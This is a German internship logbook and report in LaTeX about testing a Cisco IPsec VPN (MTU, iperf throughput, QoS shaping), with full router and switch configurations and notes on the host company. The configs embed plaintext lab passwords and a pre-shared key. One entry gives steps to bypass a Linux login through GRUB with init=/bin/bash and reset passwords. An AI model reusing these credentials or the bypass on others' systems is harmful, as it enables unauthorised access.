	
\includegraphics[width=\textwidth]{images/esp.pdf}
	\caption{esp}
	\label{fig:esp}
\end{figure}
\subsection{11.Woche}
\subsubsection{11.05}
-Router mit IPSEC-VPN Rostock ausporbieren, MTU Größe
- erst mit \texttt{sh license} sehen, dass securityk9 nicht aktivated ist
- diese als Evaluation Lizenz (evalRightToUse)  über \texttt{license boot level securityk9} für 60 Tage aktivieren und dann \texttt{write} und \texttt{reload}
-vpn einrichten hat nach Erics config geklappt
-mtu größe testen mit \texttt{ping -c 1 -s \$((1500-28)) -M do 192.168.112.2} \url{https://www.elektronik-kompendium.de/sites/net/0812211.htm}
\subsubsection{12.05}
- im router mit vpn ermittelte MTU ist \texttt{sh crypto ipsec sa | i mtu} 1438, was der 1500 Ethernet MTU entspricht minus 61 Bytes wegen esp-AES-(256 or 192 or 128) \url{https://www.sonicwall.com/support/knowledge-base/set-mtu-in-vpn-environment-in-case-of-throughput-issues/170705131319789/}. Die Abweichung von einem Byte 1500-61(62) =1438 ist vielleicht eine rundungssicherheit
- mit dem ping test und dem icmp Overhead (20 (IP Header) + 8 (ICMP Header)) wurde ebenfalls der maximale MTU wert von 1438 ermittelt \texttt{ping -c 1 -s \$((1438-28)) -M do 192.168.112.3}
-ohne vpn erreicht iperf die normale Geschwindigkeit von 97,1 MBits/sec \texttt{iperf -c 192.168.111.2 -m} und gibt aus :  MSS size 1448 bytes (MTU 1500 bytes, ethernet)
-mit vpn werden von den laut lizenz möglichen 85000kbps nur rund 69 MBits erreicht, was aber wohl geplant ist \url{https://www.cisco.com/c/en/us/support/docs/security-vpn/ipsec-negotiation-ike-protocols/118746-technote-isr-00.html}
-dieser 69mbits durchsatz kann erhöht werden, wenn eine QOS Policy wie in \Cref{PolicyQOS} genutzt wird, die die Geschwindigkeit auf 84000000 bps begrenzt \url{https://integratingit.wordpress.com/2014/05/14/cisco-isr-g2-router-bad-ipsec-performance/} wodurch ein Durchsatz von 77Mbits in perf erreicht wird, weil die Cisco VPN Lizenzregelung nicht mehr eingreift und dabei zu stark beschneidet
\begin{lstlisting}[
caption={Policy QOS},
label=PolicyQOS,
language=bash]
policy-map QOS-WAN
 class class-default
  shape average 75000000
!
interface gigabitethernet0/0
 descripton "WAN INTERFACE"
 service-policy output QOS-WAN
\end{lstlisting}
- die mtu mit vpn und \texttt{iperf -c 192.168.111.2 -m} ergibt  MSS size 1386 bytes (MTU 1426 bytes, unknown interface), wegen tcp/ip headers 2*20 bytes
- die MTU ist dabei durch den IPSec Overhead um 73, bzw. wieder 1 byte Abweichung von 1500 MTU verschieden, weil esp-AES-(256 or 192 or 128) esp-SHA-hmac genutzt wurde, siehe sonicwall. Die werte können mit cisco overhead calc noch genauer nachvollzogen werden \url{https://community.cisco.com/t5/switching/ipsec-overhead/td-p/2695916}
\subsubsection{13.05}
- der Miercom test in \path{M:/technik/software_lizenzen_doku/router/cisco} hat auf Seite 10 die bemerkung, dass IPSec tests mit 10 \% weniger traffic durchgeführt wurden um dem hinzugefügten IPSec Tunnel Overhead gerecht zu werden
- mit \texttt{iperf -c 192.168.111.2 -m -M 88} die Paketgrößen mit Werten ziwschen MSS 88 und 1386 die Bandbreitenperformance gemessen
und in tabelle mit mss, mtu und Bandbreite aufgeschrieben und erste Tabelle gemacht
-zweite Tabelle Anteil Payload zu Gesamtpaketgröße mit Overhead Theoretisch ausgerechnet z.B. 76/(76+114) = Payload/(Payload + Overhead) ist die protokolleffizienz
- Overhead 40 TCp/ip + 74 IPSEC =114
-Verhältnis Übertragungsgeschwindigkeit zu maximaler Geschwindigkeit Messung ausgerechnet z.B. 24,5 Mbits/84mbits
- dies zwei datenreihen sind identisch ählich verlaufende Kurven, wobei der theoretische Wert immer über dem gemessenen Wert liegt, siehe \Cref{fig:tcpipoverhead}
\url{https://packetpushers.net/tcp-over-ip-bandwidth-overhead/} und \url{https://en.wikipedia.org/wiki/Ethernet_frame#Maximum_throughput}
\begin{figure}
	\centering
	
\includegraphics[width=0.8\textwidth]{images/tcpipoverhead.pdf}
	\caption{IPSec Overhead}
	\label{fig:tcpipoverhead}
\end{figure}
-iperf misst nur die Transport level Daten wodurch die zu erwartende Bandbreite geringer als die physische Bandbreite ist \url{https://iwl.com/idocs/does-iperf-tell-white-lies}
\begin{lstlisting}[
caption={Eric config},
label=ericconfig,
language=bash]
Router 1

Building configuration...

Current configuration : 2448 bytes
!
! Last configuration change at 13:43:45 UTC Tue Feb 4 2020
!
version 15.5
service timestamps debug datetime msec
service timestamps log datetime msec
no service password-encryption
!
hostname testrouter1
!
boot-start-marker
boot-end-marker
!
!
enable secret 5 $1$y.75$Dl66rBIMqsACTowyMeABe1
!
no aaa new-model
ethernet lmi ce
!
!
!
!         
!
!
!
!
!
!
!
!
ip domain name itjustworks.com
ip cef
no ipv6 cef
!
multilink bundle-name authenticated
!
!
!
!
license udi pid CISCO2911/K9 sn FCZ2043B143
license boot module c2900 technology-package securityk9
!
!
username User1 privilege 15 password 0 Passw0rd1
!         
redundancy
!
no crypto ikev2 proposal default
crypto ikev2 proposal vpn-ikev2-proposal 
encryption aes-cbc-256
integrity sha256
group 14
!
no crypto ikev2 policy default
crypto ikev2 policy vpn-ikev2-policy 
proposal vpn-ikev2-proposal
!
crypto ikev2 keyring vpn-ikev2-keyring
peer vpn
address 10.10.10.2
pre-shared-key test1234test1234test1234test1234
!
!
!
crypto ikev2 profile vpn-ikev2-profile
match identity remote address 10.10.10.2 255.255.255.255 
identity local address 10.10.10.1
authentication local pre-share
authentication remote pre-share
keyring local vpn-ikev2-keyring
!
crypto ikev2 dpd 10 2 periodic
!
!
! 
!
!
crypto ipsec transform-set vpn-ipsec-transform-set esp-aes 256 esp-sha256-hmac 
mode tunnel
no crypto ipsec transform-set default
!
no crypto ipsec profile default
!
!
crypto map vpn 10 ipsec-isakmp 
set peer 10.10.10.2
set transform-set vpn-ipsec-transform-set 
set pfs group14
set ikev2-profile vpn-ikev2-profile
match address 100
!         
!
!
!
!
interface Loopback0
no ip address
!
interface Embedded-Service-Engine0/0
no ip address
shutdown
!
interface GigabitEthernet0/0
ip address 10.10.10.1 255.255.255.0
duplex auto
speed auto
crypto map vpn
!
interface GigabitEthernet0/1
ip address 192.168.111.1 255.255.255.0
duplex auto
speed auto
!
interface GigabitEthernet0/2
no ip address
shutdown
duplex auto
speed auto
!
ip forward-protocol nd
!
no ip http server
no ip http secure-server
!
ip route 0.0.0.0 0.0.0.0 10.10.10.2
ip ssh version 2
!
!
!
access-list 100 permit ip host 192.168.111.2 host 192.168.112.2
!
control-plane
!
!
!
line con 0
line aux 0
line 2
no activation-character
no exec
transport preferred none
transport output pad telnet rlogin lapb-ta mop udptn v120 ssh
stopbits 1
line vty 0 4
login local
transport input ssh
!
scheduler allocate 20000 1000
!
end
----------------------------------------------------------------------------------------------
Router 2


Building configuration...

Current configuration : 2448 bytes
!
! Last configuration change at 14:19:32 UTC Tue Feb 4 2020
!
version 15.5
service timestamps debug datetime msec
service timestamps log datetime msec
no service password-encryption
!
hostname testrouter2
!
boot-start-marker
boot-end-marker
!
!
enable secret 5 $1$vzqL$TUfOlKm0Oa553lzjnvuQB/
!
no aaa new-model
ethernet lmi ce
!
!
!
!         
!         
!         
!         
!         
!
!
!
!
ip domain name itjustworks.com
ip cef
no ipv6 cef
!
multilink bundle-name authenticated
!
!
!
!
license udi pid CISCO2911/K9 sn FCZ2043B142
license boot module c2900 technology-package securityk9
!
!
username User2 privilege 15 password 0 Passw0rd2
!
redundancy
!
no crypto ikev2 proposal default
crypto ikev2 proposal vpn-ikev2-proposal 
encryption aes-cbc-256
integrity sha256
group 14
!
no crypto ikev2 policy default
crypto ikev2 policy vpn-ikev2-policy 
proposal vpn-ikev2-proposal
!
crypto ikev2 keyring vpn-ikev2-keyring
peer vpn
address 10.10.10.1
pre-shared-key test1234test1234test1234test1234
!
!
!
crypto ikev2 profile vpn-ikev2-profile
match identity remote address 10.10.10.1 255.255.255.255 
identity local address 10.10.10.2
authentication local pre-share
authentication remote pre-share
keyring local vpn-ikev2-keyring
!
crypto ikev2 dpd 10 2 periodic
!
!
! 
!
!
crypto ipsec transform-set vpn-ipsec-transform-set esp-aes 256 esp-sha256-hmac 
mode tunnel
no crypto ipsec transform-set default
!
no crypto ipsec profile default
!
!
crypto map vpn 10 ipsec-isakmp 
set peer 10.10.10.1
set transform-set vpn-ipsec-transform-set 
set pfs group14
set ikev2-profile vpn-ikev2-profile
match address 100
!
!
!
!
!         
interface Loopback0
no ip address
!
interface Embedded-Service-Engine0/0
no ip address
shutdown
!
interface GigabitEthernet0/0
ip address 10.10.10.2 255.255.255.0
duplex auto
speed auto
crypto map vpn
!
interface GigabitEthernet0/1
ip address 192.168.112.1 255.255.255.0
duplex auto
speed auto
!
interface GigabitEthernet0/2
no ip address
shutdown
duplex auto
speed auto
!
ip forward-protocol nd
!
no ip http server
no ip http secure-server
!
ip route 0.0.0.0 0.0.0.0 10.10.10.1
ip ssh version 2
!
!
!
access-list 100 permit ip host 192.168.112.2 host 192.168.111.2
!
control-plane
!
!
!
line con 0
line aux 0
line 2
no activation-character
no exec
transport preferred none
transport output pad telnet rlogin lapb-ta mop udptn v120 ssh
stopbits 1
line vty 0 4
login local
transport input ssh
!
scheduler allocate 20000 1000
!
end


* side to side IPSEC ikev2 VPN
* 2 Router (10.10.10.1 & 10.10.10.2)
* 2 Clients (192.168.111.2 & 192.168.112.2)


\end{lstlisting}
\subsubsection{14.05}
-Layer 2 Ethernet Werte ohne Crypto noch in Router M:/ eingetragen
-mit wireshark in den ersten beiden frames die MSS bei syn und syn/ack geprüft, syn mss 100 und ack 1460 \texttt{tcp.options.mss\_val} als filter setzen
-nicht ersichtlich welche MSS oder MTU auf dem netzwerk laufen, weil die mac tabellen flutung nicht die relevanten pakete im tcpdump anzeigt
-wireshark lief auf dem recieving laptop und nicht auf der usb netzwerkkarte am gefluteten switch
- nicht klar, ob für die Protokoll Effizienz theoretischen Berechnungen von Ethernet noch zusätzlich 12 oder wie in Wireshark angezeigt 14 Bytes beachtet werden müssen
-in linux hacken über grub bootloader mit e einstellungen ändern, dann ro auf rw ändern bei quiet splash und ans ende der Zeile \texttt{init=/bin/bash} strg + alt + enter für neustart und \qq{-} für englische Tastatur Slash und \qq{'}(rechts neben ?) für Istgleich
-\texttt{getent passwd} und dann für nutzer neues passwd einstellen
\subsubsection{15.05}
- bericht weitergeschrieben
- vergleich ipsec macsec \url{https://www.cisco.com/c/dam/en/us/td/docs/solutions/CVD/Aug2016/WP-WAN-MACsecDep-Aug2016.pdf}
\subsection{12. Woche}
\subsubsection{18.05}
-Grundkonfiguration für alle 9xxx er Switche vorbereiten
.\url{https://www.cisco.com/c/en/us/support/docs/switches/catalyst-2900-xl-series-switches/24328-156.html#reset_ios} auf switch \texttt{write erase} und \texttt{reload}
-für die Grundkonfiguration musste nur ssh Zugang zum Switch eingerichtet werden \url{https://www.cisco.com/c/en/us/support/docs/security-vpn/secure-shell-ssh/4145-ssh.html#settingupaniosrouterasssh} und \url{https://sid-500.com/2017/01/09/ssh-auf-cisco-router-aktivieren/}
\begin{lstlisting}[
caption={MGMT TGZ Config},
label=mgmtconfig,
language=bash]
hostname 930024ux-TGZKeller

ip domain name test.hintereszimmer.com

crypto key generate rsa modulus 4096

username isp password 0 test1234

line vty 0 15
transport input SSH
login local

int vlan 2199
ip address 172.16.8.198 255.255.255.0

int Te1/0/1
switchport access vlan 2199

vlan 2199
name MGMT-TGZ

enable secret sjkaflhlsdjka

ip ssh version 2

int Te1/1/1 
switchport access vlan 2199
\end{lstlisting}
-für Stylevorlage der Planet IC Präsentationen erst die Schriftarten aus fonts ordner installieren \url{https://wiki.ubuntuusers.de/Schriften/}, doppelklick installieren kopiert in Ordner \path{local/share/fonts/type1}
-dann neue Präsentation über Dokumentenvorlage erstellen mit der präsentationsvorlage .otp, dort bei \qq{Vorstellung einer Referenz (Seite 1)} sind das Logo und ein Bild was man nach hinten verschieben kann
\subsubsection{19.05}
-bericht ersten zwei wochen aufgaben, einleitung und xss
- mit andreas Switch-Config eintragen in TGZ Telefonzentrale und TGZ Haus 3
- die im PIC RZ ausprobierte Switch Configuration der c9300 24 ux Switche aufspielen um den Paketverlust zu messen

-nextcloud signal server \url{https://github.com/strukturag/nextcloud-spreed-signaling}
-golang installiert \url{https://terminaladdict.com/linux/bash/golang/2019/09/10/Install-Golang-on-Debian-Buster.html}
-make installiert \url{https://askubuntu.com/questions/192645/make-command-not-found}
-ssl installiert \url{https://www.tecchannel.de/a/owncloud-9-unter-ubuntu-server-16-04-lts-installieren,3277807,2} und in server.conf eingetragen
-nats installieren \url{https://docs.nats.io/nats-server/installation}
\section{Introduction}\label{sec:intro}
- Tätigkeiten im Unternehmen/beim Kunden, Ansprechpartner fallen wegen Corona möglicherweise aus, andere Aufgaben vorziehen
- Nachricht von Bundesnetzagentur systemrelevanter betrieb
-(3) Inhalte der Praktikantentätigkeiten
- praktisch und produktiv anwenden
- Systemadministration
- Aufgabenstellungen,  die  Vorgehensweisen  und  die  Lösungen sowie was davon geschafft wurde, darstellen
- Zeugnis mit Berwertung der erledigten Aufgaben
- Antrag mit Zeugnis und Originalbericht abgeben



Das remote Blackholing hat für die Firma den Nutzen, dass anstatt den DDOS Schutz beim ISP einzukaufen, diese Ressourcen für einen doppelten Ausbau der bisherigen Bandbreite genutzt werden kann. Die Kosten verhalten sich gleich wenn entweder  1GB/s und DDOS Protection vom Provider gebucht wird, oder der Netzanschluss auf 2GB/s erhöht wird und die DDOS Angriffe selbst auf den Edge Routern ins "Nichts" geleitet werden. Bisher hatten Angriffe z.B. einen Traffic von 500-600Mbit/s verursacht, die von der hinter den Routern geschalteten ASA mit einer Kapazität von 1GB bewältigt werden können. Ein DDOS Angriff der die Leitung an sich überlasten würde, ließe sich nich durch schnellere Router oder eine leistungsstärkere ASA abwehren, da der Flaschenhals eben durch die 1Gb Leitung dargestellt werden würde. Die Webserver wären nicht erreichbar, weil die Außenanbindung  nicht genügend Durchsatz besitzt um den Traffic durchzuleiten, der vom Angreifer produziert wird. Wenn die Leitung auf 2Gbps erhöht wird, reicht der Schutz der 1Gb ASA eventuell nicht mehr aus, weshalb es sinnvoll ist die Abwehr in Form des Blackholings auf die Edge Router, die Kapazitäten bis z.B. 10Gb haben, zu verlegen. Die ASA-Serie bietet zwar keinen DDoS-Schutz, aber kann Angriffe erkennen und sperren.

Planet-IC ist ein ganzes Systemhaus mit eigenem Rechenzentrumsbetrieb, Netzwerk, Mediengestaltung, Design und Webentwicklung. Die Firma befindet sich auf dem Betriebsgelände eines Technologie und Gewerbezentrums e.V.(TGZ) und wird von der \commentontext{EU gefördert}{stimmt das?}. Dieser Zusammenschluss von IT-Dienstleistern und auch anderen Branchen erinnert mich an ein norddeutsches Silicon Valley.
Von außen ist es ein auffällig in Blautönen gemustertes Gebäude und im Inneren gefällt mir die Ausstattung des Foyers mit einem Billardtisch sowie Liegestühlen in der ersten Etage. Die Räume wirken modern und der Zutritt zum Gebäude ist nur für Mitarbeiter möglich. Dieser Sicherheitsaspekt ist für die Kunden und ihre vertraulichen Daten entscheidend.
Das Rechenzentrum als Kernbetrieb ist durch ein Information Security Management System ISO 27001 zertifiziert und über ein Transpondersystem zutrittsbeschränkt. 

Behandelte themen waren GNS3, Jitsi-Server, MACSec mit LACP Bündelung testen, CISCO ASA, DDOS, IPSEC-VPN, BGP Routen Ausfallsicherung,

Meine beruflichen Überlegungen sind noch nicht vollständig abgeschlossen. Das Praktikum habe ich als wertvolle Erfahrung wahrgenommen.
Am ehesten wurden Netzwerkkenntnisse gebraucht, die aus der Vorlesung \qq{Rechner und Netze} bekannt sein hätten können. Daher kannte ich den Begriff der Paketgrößen als MTU. Aber mir war nicht bewusst, wie stark der Overhead von bestimmten Protokollen, wie z.B. IPSEC beim VPN die Performance bei kleinen MSS Größen dabei verringert. Für mich stach der direkte praktische Umgang mit den Geräten, die für die Kunden angeboten wurden hervor. 
Eine andere vorlesung deren Kenntnisse genutzt werden konnten, ist \qq{Datenbanken}. Als ich mich mit den Grundlagen von Webservern aufbauen beschäftigt habe, wurden Datenbanken praktisch im Kontext von LAMP-Stacks mit mysql eingesetzt. Dies war aber nur ein sehr geringer Bestandteil des Praktikums den ich die ersten zwei Wochen verfolgt habe.

Die Atmosphäre empfand ich als sehr angenehm, ich hatte Spaß zur Arbeit zu kommen. Es wird auf die Eigenverantwortlichkeit der Mitarbeiter vertraut. Dies zeigt sich in der schnellen Adaption ans Homeoffice zu den Anfängen der Corona Zeit. Wer von sich aus lieber zu Hause bleiben wollte, bekam die Ausrüstung, also Bildschirme Adapter und teilweise Rechner ohne Probleme zu sich geliefert.
Die Zusammenarbeit war auch über die beruflichen Aufgaben hinaus vorhanden, als die Kantine des TGZ wegen der Pandemie schließen musste und ein kleiner Teil der Belegschaft in der Kaffeeküche gemeinsam Mittag gekocht hat. Auch vorher wurde für die Mitarbeiter kostenlos Obst und Kaffee oder Tee zur Verfügung gestellt.

Zu dem VPN Test mit den rostocker Routern meinte Paul, dass die MTU Größe bei ihm innerhalb eines Nodes bei VmWare hochgeschraubt wurde und fragte, ob das bei den Produktivsystemen mit lxc Containern und Proxmox auch der Fall sein könnte. Ich sollte prüfen, wie bei der VPN Verbindung die maximale MTU für den besten Speed ist. Es wäre in der lxd Dokumentation als Hypervisor der lxc's zu prüfen, ob dort interne Optimierungen bezüglich des netzwerkes vorgenommen werden.
Weiterhin könnte ich den Fokus auf einen Vergleich zuwischen ersten MACSec zwischen UPlink Ports, zwietens zwischen MACSec mit DownlinkPorts, also bis hin zu den Clients, und drittens IPSec-VPN darstellen könnte. Dabei wären Vor- und Nachteile wie Kosten, Performance und Sicherheitsaspekte entscheidend, so dass wie bei einem Lehrbuch die passende Variante für einen bestimmten Verwendungszweck ausgewählt werden kann sinnvoll.

Gns3 ist eine Netzwerksimulationsumgebung mit der komplette topologien nachgebaut werden können. Es können PCs, Switche und Router wie im echten Aufbau miteinander verbunden und mit realen Konfigurationen eingerichtet und getestet werden. Dies hat den vorteil, dass nicht die physischen Geräte im Betrieb geändert werden müssen, sondern dass neue features oder Anforderungen zuerst im virtuellen Simulationstool ausprobiert werden können. Dazu müssen die echten Betriebssysteme der Komponenten wie Router und Switche emuliert werden. Es können verschieden Virtual machines über z.B. Virtual Box eingebunden werden. Zusätzlich können die über die Leitungen verschickten Pakete mit Wireshark abgehört werden, wodurch sich überprüfen lässt, ob eine Konfiguration erwartungsgemäß funktioniert. In diesem Zusammenhang habe ich eine VPN Tunnel Verbindung mittel IPSEC nachgebaut und die Verschlüsselung der einzelnen Pakete bestätigen können.

